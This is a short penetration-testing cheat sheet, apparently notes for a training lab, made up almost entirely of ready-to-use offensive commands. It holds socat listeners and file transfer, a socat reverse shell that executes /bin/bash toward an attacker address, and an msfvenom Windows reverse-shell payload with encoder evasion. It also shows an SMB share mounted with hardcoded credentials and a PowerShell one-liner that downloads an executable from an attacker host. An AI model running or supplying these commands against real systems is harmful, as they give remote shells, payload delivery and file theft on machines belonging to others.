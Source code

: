 #### listener
host
`sudo socat TCP4-LISTEN:443 STDOUT`
local
`socat - TCP4:10.11.0.22:443`

#### file transfer
host
`sudo socat TCP4-LISTEN:443,fork file:EXAMPLE.txt`
local
`socat TCP4:10.11.0.4:443 file:EXAMPLE_NAME.txt,create`

#### reverse shell
local
`sudo socat -d -d TCP4-LISTEN:443 STDOUT`
target
`socat TCP4:10.11.0.22:443 EXEC:/bin/bash`

#### encrypted bind shells
create self-signed certificate
`openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt`

#### rdesktop
`rdesktop -u student -k pt -g 2048x1110 192.168.197.10`

### FTP
`passive`
toggles the passive/active mode during session

### MSFVenom

#### shell generation - bytes
```
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "BYTES_GO_here"
```
### smb 
#### setup on nix
`$ sudo ./smbserver.py tools $(pwd) -smb2support -user dials -password password1`

#### create cred object
```
> $pass = convertto-securestring 'password1' -AsPlainText -Force`
> $cred = New-Object System.Management.Automation.PSCredential('dials', $pass)
> New-PSDrive -Name dials -PSProvider FileSystem -Credential $cred -Root \\10.10.14.52\tools
cd dials:
```

#### PowerShell New-Object
Always try specifying full path. 
download file
`(New-Object System.Net.Webclient).DownloadFile("http://<IP>:<PORT>/<FILENAME>.exe","C:\<FILENAME>.exe")`
